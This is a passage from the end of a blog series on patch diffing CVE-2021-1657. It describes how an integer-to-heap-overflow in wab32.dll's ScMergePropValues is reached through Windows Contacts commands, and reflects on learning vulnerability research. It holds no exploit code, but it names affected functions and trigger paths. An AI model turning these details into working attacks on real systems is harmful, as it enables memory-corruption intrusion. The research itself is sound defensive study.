The `wab32!ScMergePropValues` vulnerability can be triggered as demonstrated in `WFS.exe` or `wab.exe` (aka [Windows Contacts](https://en.wikipedia.org/wiki/Windows_Contacts) application) . It occurs in `wab.exe` when you run `wab.exe /find`. Or `wab.exe /contact ~/Contacts/`.  It seems at first glance that `ScMergePropValues` function is used to merge the contact file on disk with the changes you might make while viewing or editing a contact. I speculate it is trying to merge your modifications with the original by rereading the source, forcing at least two copies of the original contact in memory. Perhaps the reason for all those allocations!

#### New Lenses
Before wrapping up, I wanted to touch on one interesting observation about finding the vulnerability in `wab32.dll`. **I wasn't able to see it at first.** When I was attempting several times to overflow `CbAdrInfoSize`, and running into exceptions in `wab32.dll`, I ignored them. The exception wasn't happening in my focus area or where I expected. The realization  was a process requiring both time and effort. Only after I began to understand specific requirements of integer overflows and the internals of `WFS.exe` was I able to see the problem.  Hopefully, I won't be so quick to ignore exceptions in the future.

## Wrapping Up
It took some time, but I feel like we have put some weight behind my [stated conclusions](Patch%20Diffing%20In%20the%20Dark%20-%20CVE-2021-1657.md#Putting%20My%20Money%20Where%20My%20Mouth%20Is) on patch diffing. Patch diffing a random CVE has allowed us to go from a *single source of truth* (CVE-2021-1657) to *gain clarity* on a vulnerability (integer and heap buffer overflows), and *improved our competence* with a vulnerable application and related vulnerability classes.  Our CVE became a North Star to security relevant code the led us **to discover three related, but distinct, integer overflows leading to heap buffer overflows**. We have demonstrated two of them with the last one found in `wab32.dll` being the reason why why we could not trigger the overflow in `CbAdrInfoSize` from [Part 2](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md). 

My hope for these blog posts is that others would be inspired to try out patch diffing.  In studying CVE-2021-1657 via patch diffing, I was able to learn very quickly about a security related section of an application I knew nothing about. With the diff, I could see through all the noise and focus only on the pertinent changes. This focus lead me to an area of code that previously had a vulnerability, and seems to have at least a few more. Along the way, I learned about integer overflows and when they are dangerous.  I was introduced to several new concepts such as large file creation, Windows memory resource management, and even Windows [Interprocess Communication](https://docs.microsoft.com/en-us/windows/win32/ipc/interprocess-communications#using-the-clipboard-for-ipc) via the Windows Clipboard. Through this process, I now have a set of mental models in the form of vulnerability classes that I know carry with me.  The next time I run into an integer overflow, I'll be able to identify it more quickly.  This [exercise](https://jamesclear.com/beginners-guide-deliberate-practice) has improved my ability as a vulnerability researcher, and I bet this would be true for anyone looking for some ways to work on challenging problems just beyond their current knowledge set. 

Before we close the chapter, there is one more drop of life blood (or blog post) to squeeze from CVE-2021-1657.  Over the course of patch diffing that [Friday afternoon](Patch%20Diffing%20In%20the%20Dark%20-%20CVE-2021-1657.md#One%20Friday%20Afternoon) and attempting to write several blog posts the weeks following, I discovered quite a bit about the *Windows Fax Compose Form*. I learned how it works, how the contact data is input, and the [specifics](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md#Cheating%20-%20aka%20leveraging%20Github) of the `ADRINFO` structure.   We analyzed functions to see how a contact was loaded, how the data was [constructed](Patch%20Diffing%20In%20the%20Dark%20-%20CVE-2021-1657.md#Data%20Found) and [constrained](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%202%20-%20Down%20the%20Rabbit%20Hole.md#Additional%20Bounds%20Check%20Preventing%20Heap%20Buffer%20Overflow) by various code paths and the recent patch.  This deeper understanding of the internals and constraints of contact data led to the question "What if we removed the constraints?".  If an attacker (or security researcher) had full control of `ADRINFO` construction what damage could be done? It turns out the answer to that question is the same as the answer to the question "[Do you trust me?](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2021-1657%20-%20Part%204%20-%20Do%20you%20trust%20me.md).

---


